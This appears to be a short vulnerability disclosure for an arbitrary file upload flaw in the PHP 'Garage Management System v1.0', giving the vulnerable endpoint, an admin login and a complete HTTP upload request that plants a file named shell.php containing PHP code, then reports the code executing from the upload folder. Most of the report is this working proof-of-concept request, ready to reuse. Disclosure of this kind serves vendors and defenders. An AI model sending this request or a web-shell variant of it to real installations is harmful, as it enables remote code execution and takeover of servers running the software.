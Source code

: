 # Garage Management System v1.0 by Alex has arbitrary code execution (RCE)

BUG_Author: Yc liu

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: xxx@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/garage/php_action/editProductImage.php?id=1

Loophole location: arbitrary file upload exists in Garage Management System's editProductImag.php file (RCE).

Request package for file upload：

```sql
POST /garage/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/editproduct.php?id=1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2213179266536
Content-Length: 432

-----------------------------2213179266536
Content-Disposition: form-data; name="old_image"

shell.php
-----------------------------2213179266536
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2213179266536
Content-Disposition: form-data; name="btn"


-----------------------------2213179266536--
```

The files will be uploaded to this directory \garage\assets\myimages

![image](https://user-images.githubusercontent.com/54017627/180588440-1198f559-6960-4b97-98e2-58289bc4c432.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/180588468-7ad64ffb-abe4-4e01-9861-178e67579c62.png)
